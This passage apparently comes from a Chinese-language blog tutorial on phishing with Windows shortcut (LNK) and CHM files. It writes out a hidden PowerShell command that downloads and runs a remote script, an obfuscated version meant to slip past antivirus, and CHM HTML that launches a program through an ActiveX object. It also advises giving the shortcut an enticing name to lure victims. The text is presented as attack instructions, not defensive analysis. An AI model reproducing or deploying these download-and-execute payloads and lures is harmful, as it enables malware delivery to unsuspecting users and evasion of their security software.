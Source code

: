 随便选择一个应用或者文件，右键点击创建快捷方式，右键打开属性：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeicU4VssLBAgqlM7tWGMJHZ1MBbdSPwxN3icUicyzqHRt7ya8jVCdyqacA/640?wx_fmt=png)

我们需要更改目标这里的目标，这里的目标路径改成我们的攻击载荷，下面的起始位置可以不更改，基本上没啥影响。

修改：

```
C:\Windows\System32\cmd.exe /c powershell -nop -w hidden -exec bypass - -c "IEX((New-Object System.Net.WebClient).DownloadString('//192.168.1.109/1.ps1'))
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBewEv6Q8RIeCibQrvg9DG5dSSHIw2hLuTvdG2730B0v8j9VhV3xhxGVCA/640?wx_fmt=png)

选择更改图标，因为我这里改成了 cmd，快捷方式对应的图标也会更改为 cmd，需要更改一下图标，查找图标路径改成 shell32.dll 这里存放这 windows 系统所以的图标，不建议去自己加，因为你要发送给受害者，不能保证受害者电脑上有此图标  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBe8j2ibuib3RRFia8497al5vjZT4lNPzYrgnKBb1vsOajyiaHomaJ6p9y86w/640?wx_fmt=png)

然后再改一下快捷方式名字，比如像我这样，必须得诱人一点！

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBecicwqEZhq8ExBalsFEgSjCzxFoy49d3jOoatxoHrwQ0qUsxibVNwTibNQ/640?wx_fmt=png)

那么一个 link 钓鱼就完成了，但是这个放出去杀软立马干死，好人做到底，再来个过静态的免杀语句混淆。  

```
cmd.exe /c "FOR /F "delims=s\ tokens=4" %a IN ('set^|findstr PSM')DO %a IEX (New-ObjectNet.WebClient).DownloadString('http://bit.ly/L3g1t')"
```

3 CHM 文档钓鱼：
-----------

新建一个文件夹，新建一个 index.html，文件内容为

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM >
 <PARAM >
 <PARAM  value=',calc.exe'>
 <PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeianibXECyPHyVictwf7TRS2XaGt2fjQt2UqOiblLntIWhiaOJiaGlzx54Pkw/640?wx_fmt=png)

然后打开 Easy CHM 程序，新建，浏览，选择我们建立好的目录，然后确定：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeQ6TRxMTvDvhHeZj4gpE4sOByqtcZBeRHxFdQap4Bs9Xrs0lXtOafYQ/640?wx_fmt=png)
